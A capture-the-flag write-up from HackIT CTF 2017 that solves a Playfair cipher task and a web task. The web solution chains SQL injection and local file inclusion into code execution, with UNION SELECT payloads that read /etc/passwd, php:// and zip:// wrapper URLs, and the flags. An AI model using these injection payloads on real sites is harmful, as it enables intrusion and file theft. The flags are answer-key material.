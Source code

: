 <h1>HackIT CTF 2017 Writeups</h1>

<h3>Crypto (100):  </h3><br>
Description shows that its a playfair cipher with same original message, we can use some online tools to bruteforce it <br>
https://www.quinapalus.com/playfair.html worked just fine, after extracting each message we get the keyword to cipher it<br>
and finally we append the keywords together and put them in flag format <br>
<code><br>
h4ck1t{hackitisverydangercrypto}
</code>



<h3>Web (100): </h3><br>
This challenge is about SQLi+LFI and turn that to RCE with the upload function
Looks like easy sql injection, but after fetching all tables and columns, only thing we got is a table named countries with 3 columns, nothing interesting<br>
but when we try to get current query with SQLi using <b>SELECT info FROM information_schema.processlist</b><br>
We see the query : Select scripPath from countries where countryname='something'<br>
thats looks like an LFI to mee, when we inject <code>countryname='' union select '/etc/passwd' -- - </code> we get passwd file<br>
<br>I used PHP wrappers to pull index.php and country/fr.php<br>
using countryname='' union select 'php://filter/read=convert.base64-encode/resource=country/fr.php'<br>
when we get source code we can base64 decode it and see where the file uploaded are stored<br>
This is the final part, we need to leverage the upload to a Remote code execution, I used a zip file containing php and uploaded it<br>
and used a zip wrapper to execute my php, http://tasks.ctf.com.ua:13372/index.php?country=%27%20union%20select%20%27zip://uploads/l33t.zip%23secret.php%27%20--%20- <br>
my php file contains scandir function thats equivalent to 'ls' <br>
i got this response :
<code>Array ( [0] => . [1] => .. [2] => .htaccess [3] => country [4] => index.php [5] => iulersiueruigfuihseruhgi.php [6] => static [7] => uploads )</code>
<br>
that php file looked interesting, let's open it : http://tasks.ctf.com.ua:13372/index.php?country=%27%20union%20select%20%27php://filter/read=convert.base64-encode/resource=iulersiueruigfuihseruhgi.php%27%20--%20-
<br>
got this : PD9waHAKCiRmbGFnPSJoNGNrMXR7JFFMJkxGST1GUjEzTkQkfSI7Cgo/Pgo= <br>
base64 decode it and find <code><?php$flag="h4ck1t{$QL&LFI=FR13ND$}";?></code>
that's our flag
